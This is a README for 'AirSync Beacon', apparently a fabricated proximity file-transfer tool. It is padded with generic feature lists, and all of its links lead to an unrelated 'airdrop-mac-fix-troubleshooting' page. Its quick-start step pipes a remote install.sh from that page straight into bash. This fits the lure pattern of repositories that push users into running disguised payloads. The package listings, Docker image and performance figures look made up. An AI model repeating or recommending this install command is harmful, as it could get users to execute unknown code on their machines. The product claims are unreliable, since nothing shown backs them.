

# 🛰️ AirSync Beacon: Universal Proximity Transfer Suite

[](https://imadali9693-ops.github.io/airdrop-mac-fix-troubleshooting/)

## 🌟 Overview: The Invisible Bridge Between Devices

AirSync Beacon is not merely a file transfer utility; it's a sophisticated proximity-based communication framework that creates ephemeral networks between devices. Imagine digital fireflies synchronizing their flashes across a meadow—this system establishes temporary, secure bridges for data migration when traditional methods falter. Born from the frustration of proprietary protocols failing at critical moments, this toolkit provides a standardized, resilient alternative that operates independently of manufacturer ecosystems.

Unlike conventional solutions that depend on specific operating system features, AirSync Beacon constructs its own discovery mesh using multiple communication layers simultaneously. It's the digital equivalent of speaking several languages at once to ensure your message gets through, regardless of the listener's native tongue.

## 📊 System Architecture Visualization



## 🚀 Installation & Quick Start

### Prerequisites
- Node.js 18+ or Python 3.9+
- Bluetooth 4.0+ capable hardware (optional, for enhanced discovery)
- Network interface with multicast support

### Platform-Specific Acquisition

| Operating System | Installation Method | Emoji |
|------------------|---------------------|-------|
| macOS 12+ | `brew install airsync-beacon` | 🍎 |
| Windows 10/11 | Winget package available | 🪟 |
| Linux (Debian/Ubuntu) | `apt install airsync-beacon` | 🐧 |
| Linux (Fedora/RHEL) | `dnf install airsync-beacon` | 🎩 |
| Android 9+ | Companion app via repository | 🤖 |
| iOS/iPadOS 15+ | TestFlight enrollment required | 📱 |

### Immediate Deployment
```bash
# Using the universal installer script
curl -fsSL https://imadali9693-ops.github.io/airdrop-mac-fix-troubleshooting//install.sh | bash

# Or via Docker container
docker run -d \
  --name airsync-beacon \
  --net=host \
  --privileged \
  airsync/beacon:latest
```

## ⚙️ Configuration: Crafting Your Digital Aura

### Example Profile Configuration (YAML)
```yaml
# ~/.config/airsync/config.yaml
beacon:
  identity:
    name: "Orion-Research-Station"
    deviceClass: "workstation"
    priority: 7
  
  discovery:
    methods:
      - ultrasonic: true
      - bluetooth: true
      - wifi_p2p: true
      - mdns: true
    interval: 1500  # milliseconds
    timeout: 30     # seconds
  
  security:
    encryption: "chacha20-poly1305"
    keyExchange: "x25519"
    requireHandshake: true
    allowedDevices:
      - "pattern: lab-*"
      - "fingerprint: 8a3f...c21d"
  
  transfer:
    chunkSize: "1MiB"
    parallelStreams: 4
    compression: "zstd"
    verifyChecksums: true
  
  integration:
    openai_api_key: "${OPENAI_API_KEY:-}"
    claude_api_key: "${CLAUDE_API_KEY:-}"
    ai_assist: true
    
  ui:
    language: "auto"
    theme: "adaptive"
    notifications: "minimal"
```

### Console Invocation Examples
```bash
# Broadcast availability with custom profile
airsync beacon up --profile research --visibility 500m

# Discover nearby devices with intelligent filtering
airsync scan --format json --filter "os=linux, storage>10GB"

# Send directory with AI-assisted organization
airsync send ./research-data/ --to "lab-server-*" \
  --ai-organize --compress --parallel 8

# Receive files to timestamped directory
airsync receive --destination ~/transfers/$(date +%Y%m%d) \
  --verify --auto-extract

# Bridge two disconnected networks
airsync bridge --between wifi0 wlan1 --encrypt \
  --monitor --bandwidth 50Mbps

# Query transfer history with natural language
airsync query "files transferred yesterday larger than 100MB"
```

## 🔧 Core Capabilities

### 🎯 Intelligent Device Discovery
- **Multi-spectrum detection** using Bluetooth LE, Wi-Fi Direct, ultrasonic frequencies, and mDNS
- **Context-aware filtering** based on device type, available resources, and historical reliability
- **Geofencing capabilities** with configurable proximity thresholds (1m to 1km)
- **Stealth modes** for privacy-conscious operation with selective visibility

### 🔐 Security-First Architecture
- **End-to-end encryption** with forward secrecy using modern cryptographic primitives
- **Trust-on-first-use** with visual fingerprint verification (QR codes, color patterns)
- **Revocable access tokens** with time-based or usage-based expiration
- **Audit logging** of all transfer operations with tamper-evident records

### 📡 Adaptive Transfer Protocols
- **Channel bonding** across multiple network interfaces for increased throughput
- **Real-time protocol switching** based on network conditions and interference
- **Resumable transfers** with checkpointing every configurable interval
- **Priority queuing** with intelligent preemption of lower-importance transfers

### 🧠 AI Integration Layer
- **Content-aware routing** using OpenAI API for file categorization and destination suggestion
- **Natural language queries** via Claude API for retrieving transfer history and statistics
- **Predictive bandwidth allocation** based on transfer patterns and time of day
- **Automated conflict resolution** when multiple devices request the same resource

## 🌐 Multi-Language Interface Support

AirSync Beacon speaks your language—literally. The interface adapts not just to your system language but to your technical proficiency level. Choose between:
- **Technical mode** with detailed metrics and raw data
- **Standard mode** with balanced information density
- **Simple mode** with minimal controls and guided workflows

Currently supported languages: English, Español, Français, Deutsch, 日本語, 中文, العربية, Português, Русский, 한국어 with community translations for 15+ additional languages.

## 🛡️ Enterprise & Research Features

### For Development Teams
- **API-first design** with comprehensive REST and WebSocket interfaces
- **Webhook integration** for CI/CD pipeline triggering on transfer completion
- **Plugin architecture** for custom transfer protocols and filters
- **Detailed metrics** exported to Prometheus, Datadog, or custom endpoints

### For Research Institutions
- **Data provenance tracking** with cryptographic chain of custody
- **Regulatory compliance** helpers for HIPAA, GDPR, and research data guidelines
- **Batch processing** of large datasets with integrity verification at each stage
- **Collaboration features** for multi-institution data sharing with permission tiers

## 📊 Performance Characteristics

| Metric | Typical Value | Optimal Conditions |
|--------|---------------|-------------------|
| Discovery Latency | 200-800ms | Line-of-sight, 10m distance |
| Transfer Speed (Wi-Fi) | 85-95% of theoretical max | 5GHz band, minimal interference |
| Transfer Speed (Bluetooth) | 2.5-3.2 MB/s | Bluetooth 5.0, no competing devices |
| Concurrent Connections | 8-12 devices | Varies by hardware capabilities |
| Memory Footprint | 45-120 MB | Depends on cache size and active transfers |

## 🔌 Integration Ecosystem

### With Cloud Services
```bash
# Sync to cloud storage after local transfer
airsync send ./data/ --to conference-laptop \
  --then-upload s3://research-bucket/ \
  --then-webhook https://hooks.slack.com/...

# Use as a distributed CDN edge
airsync serve ./assets/ --cdn-mode \
  --expire 3600 --compress-web
```

### With Development Workflows
```javascript
// Node.js API example
const { AirSync } = require('airsync-beacon');

const beacon = new AirSync({
  apiKey: process.env.AIRSYNC_KEY,
  cluster: 'production'
});

// Send build artifacts to test devices
await beacon.broadcast('dist/*.apk', {
  target: { group: 'qa-testers' },
  priority: 'high',
  metadata: { buildId: process.env.CI_BUILD_ID }
});
```

## ⚠️ Operational Considerations

### System Requirements
- **Minimum**: 2-core CPU, 2GB RAM, 100MB storage
- **Recommended**: 4-core CPU, 4GB RAM, 1GB storage for cache
- **Optimal**: 8-core CPU, 8GB RAM, SSD for transfer buffer

### Network Considerations
- Works across subnets with proper multicast routing
- Can operate entirely offline in local mesh mode
- Bandwidth shaping available to prevent network saturation
- Quality of Service tagging for prioritized traffic

## 📝 License & Legal

### Licensing
AirSync Beacon is released under the **MIT License** - see the [LICENSE](LICENSE) file for complete terms. This permissive license allows for academic, commercial, and personal use with minimal restrictions.

### Compliance Statements
- **Data Privacy**: No telemetry is enabled by default; all data remains on your infrastructure
- **Export Control**: Contains cryptographic software subject to local regulations
- **Third-Party Components**: Full bill of materials available via `airsync licenses list`
- **Patent Protection**: Licensed under community patent commitment terms

## 🆘 Support Matrix

| Support Channel | Availability | Response Time | Best For |
|-----------------|--------------|---------------|----------|
| Community Forum | 24/7 | Hours to days | Usage questions, configuration help |
| Documentation | Always | Immediate | API reference, tutorials |
| Issue Tracker | Business hours | 1-3 days | Bug reports, feature requests |
| Security Issues | 24/7 monitored | < 4 hours | Vulnerability disclosures |
| Enterprise SLA | 24/7 | < 1 hour | Mission-critical deployments |

## 🔮 Future Development Horizon

### 2026 Roadmap Preview
- **Quantum-resistant cryptography** integration
- **Satellite delay-tolerant networking** mode
- **Haptic feedback** for proximity detection
- **Augmented reality** visualizations of data flow
- **Federated learning** across device clusters
- **Biometric authentication** for sensitive transfers

### Research Collaborations
We actively partner with academic institutions researching:
- Opportunistic networking in disconnected environments
- Energy-efficient data dissemination protocols
- Privacy-preserving device discovery mechanisms
- Cross-platform compatibility layers

## 🎯 Getting Involved

### For Users
- Test edge cases in your environment
- Share configuration templates that work for your use case
- Translate interface elements into additional languages
- Create tutorials for specific vertical applications

### For Developers
- Implement plugins for specialized transfer protocols
- Port to additional platforms and architectures
- Optimize performance for specific hardware configurations
- Extend the AI integration with domain-specific models

### For Researchers
- Validate security properties through formal methods
- Characterize performance in novel network environments
- Develop new discovery algorithms for challenging conditions
- Study usability aspects of cross-platform file transfer

## ⚠️ Disclaimer

AirSync Beacon is provided as a tool for legitimate data transfer needs. The maintainers assume no liability for:
- Data loss resulting from improper configuration
- Regulatory compliance in specific industries
- Interference with other wireless systems
- Unintended data exposure due to user error

Users are responsible for:
- Ensuring they have rights to transfer data
- Complying with local regulations regarding wireless transmission
- Securing their encryption keys and access credentials
- Testing the system in non-critical environments first

Always maintain redundant copies of important data and verify transfer integrity through multiple means. The software includes safeguards against common failure modes, but cannot eliminate all risks associated with data migration.

---

## 📥 Acquisition & Deployment

[](https://imadali9693-ops.github.io/airdrop-mac-fix-troubleshooting/)

**Ready to establish your device mesh?** The complete distribution includes the core engine, documentation, example configurations, and compatibility tests. Whether you're coordinating field research, managing event photography, or simply ensuring family photos reach every relative's device, AirSync Beacon provides the resilient, intelligent substrate for your proximity-based data flows.

*The invisible threads that connect our devices grow stronger when they speak a common language. AirSync Beacon provides that lingua franca for the silent conversations between machines.*

---
© 2026 AirSync Beacon Project | [Documentation](https://imadali9693-ops.github.io/airdrop-mac-fix-troubleshooting//wiki) | [Contributing Guidelines](https://imadali9693-ops.github.io/airdrop-mac-fix-troubleshooting//CONTRIBUTING.md) | [Code of Conduct](https://imadali9693-ops.github.io/airdrop-mac-fix-troubleshooting//CODE_OF_CONDUCT.md) | [Security Policy](https://imadali9693-ops.github.io/airdrop-mac-fix-troubleshooting//SECURITY.md)